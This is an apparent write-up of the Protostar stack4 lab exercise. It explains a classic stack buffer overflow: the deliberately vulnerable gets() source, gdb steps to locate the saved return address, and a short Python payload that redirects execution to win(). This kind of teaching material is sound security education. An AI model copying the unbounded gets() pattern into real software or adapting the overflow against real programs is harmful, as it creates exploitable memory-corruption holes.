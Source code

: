 ## Protostar exercises - [stack4](https://exploit-exercises.lains.space/protostar/stack4/)

#### About
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

A variety of introductory papers into buffer overflows may help.
gdb lets you do “run < input”
EIP is not directly after the end of buffer, compiler padding can also increase the size.

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### Procedure:

after main is executed, the stack contains the address which called main. At the last statement of main (ret) this address is popped off stack and stack frame goes back to previous state and ESP points to the return pointer. 

We can change the return pointer to point to win() function, this executing it after ret

##### Vulnerability:

`gets` is vulnerable function.


##### Disassembly:

![disassembly](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack4/disassemble.PNG)

Lets start by running ./stack4 with a large input (AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ) since we dont know where the return pointer is

create breakpoint at ret `break *0x0804841e` and run

![ret-1](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack4/ret-1.PNG)

We can see that $esp (0xbffff75c) is loaded with 0x56565656 and the next step after ret tried to execute 0x56565656 and failed.

So, if we can overwrite 0xbffff75c with the address of win(), we are done

address of win can be found using objdump or in gdb
```
(gdb) x win
0x80483f4 <win>:        0x83e58955
```

Lets modify our python program to add this address to string after 0x55 (U)
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"
padding += "\xf4\x83\x04\x08" #address 0x80483f4
print padding
```
![done](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack4/done.PNG)

Now we can see that $esp now has 0x080483f4 and win() is executed

